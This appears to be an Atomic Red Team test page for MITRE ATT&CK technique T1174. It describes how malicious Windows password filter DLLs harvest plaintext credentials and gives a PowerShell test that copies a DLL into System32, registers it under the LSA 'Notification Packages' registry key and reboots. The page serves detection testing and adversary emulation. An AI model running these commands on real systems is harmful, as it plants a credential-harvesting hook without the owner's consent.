 # T1174 - Password Filter DLL
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1174)
<blockquote>Windows password filters are password policy enforcement mechanisms for both domain and local accounts. Filters are implemented as dynamic link libraries (DLLs) containing a method to validate potential passwords against password policies. Filter DLLs can be positioned on local computers for local accounts and/or domain controllers for domain accounts.

Before registering new passwords in the Security Accounts Manager (SAM), the Local Security Authority (LSA) requests validation from each registered filter. Any potential changes cannot take effect until every registered filter acknowledges validation.

Adversaries can register malicious password filters to harvest credentials from local computers and/or entire domains. To perform proper validation, filters must receive plain-text credentials from the LSA. A malicious password filter would receive these plain-text credentials every time a password request is made. (Citation: Carnal Ownage Password Filters Sept 2013)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install and Register Password Filter DLL](#atomic-test-1---install-and-register-password-filter-dll)


<br/>

## Atomic Test #1 - Install and Register Password Filter DLL
Uses PowerShell to install and register a password filter DLL. Requires a reboot and administrative privileges.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| input_dll | Path to DLL to be installed and registered | Path | C:\AtomicRedTeam\atomics\T1174\src\AtomicPasswordFilter.dll|

#### Run it with `powershell`!
```
$passwordFilterName = (Copy-Item "#{input_dll}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
$notificationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
Restart-Computer -Confirm
```
<br/>
